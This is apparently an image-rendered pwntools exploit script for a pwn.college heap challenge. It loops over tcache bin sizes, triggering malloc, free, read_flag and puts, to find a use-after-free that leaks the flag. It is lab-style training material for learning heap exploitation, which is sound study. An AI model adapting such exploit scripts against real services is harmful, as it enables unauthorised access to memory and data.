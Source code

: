 ```python
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Size: ", str(size))


def free():
    target.sendlineafter(b": ", b"free")


def puts():
    target.sendlineafter(b": ", b"puts")


def read_flag():
    target.sendlineafter(b": ", b"read_flag")


def quit():
    target.sendlineafter(b": ", b"quit")


def test_size(candidate):
    launch()
    malloc(candidate)
    free()
    read_flag()
    puts()

    response = target.recvall(timeout=0.01)
    if b"pwn.college{" in response:
        target.close()
        return True
    return False


def main():
    for bin in range(0x20, 0x410 + 1, 0x10):
        base_req = bin - 0x10
        ok = test_size(base_req)
        if ok:
            log.success(
                f"Found working requested size: {hex(base_req)} for tcache bin {hex(bin)}"
            )
            return
        log.warning("Exhausted candidates, none matched.")
    target.interactive()


```